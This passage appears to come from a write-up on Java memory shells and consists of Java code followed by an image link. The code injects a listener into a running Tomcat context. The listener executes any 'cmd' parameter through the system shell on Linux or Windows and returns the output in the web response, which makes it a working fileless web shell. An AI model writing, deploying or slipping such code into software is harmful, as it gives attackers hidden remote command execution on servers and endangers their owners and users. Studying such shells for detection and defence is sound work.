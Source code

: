 ```java

                        if (cmd != null) {
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            response.getWriter().write(output);
                            response.getWriter().flush();
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            };
            standardContext.addApplicationEventListener(listener);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/11.png)
